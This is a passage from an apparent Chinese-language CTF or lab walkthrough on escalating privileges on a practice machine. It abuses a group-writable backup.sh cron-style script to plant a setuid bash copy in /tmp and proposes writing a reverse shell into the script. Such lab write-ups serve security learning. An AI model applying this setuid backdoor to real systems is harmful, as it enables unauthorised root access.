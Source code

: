 > 拿到pinky用户权限

### 提权信息收集

在历史命令中 `/home/pinky/bash_history`，发现编辑过`backup.sh`。  
`-rwxrwx--- 1 demon pinky 217 Oct 15 08:35 /usr/local/bin/backup.sh`  
backup.sh。所有者为demon，属组为pinky。但当前pinky用户属组为stefano。newgrp命令切换当前为pinky组即可编辑。

[![](assets/1703831476-e7605c2de770b43632329aeff1a525f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224625-b5c2a928-a4c6-1.png)

## 九、 shell as user3

留意到backup.sh可能是个自动备份程序，可以尝试写入反弹shell。这里尝试的是 `bash -p` ，记得输入bash调回系统原生bash，不然有些命令可能会报错  
编辑backup.sh，加入：

```plain
chmod ugo+x /tmp/bashshell
chmod u+s /tmp/bashshell
```

```plain
/bashshell -p
bash
```
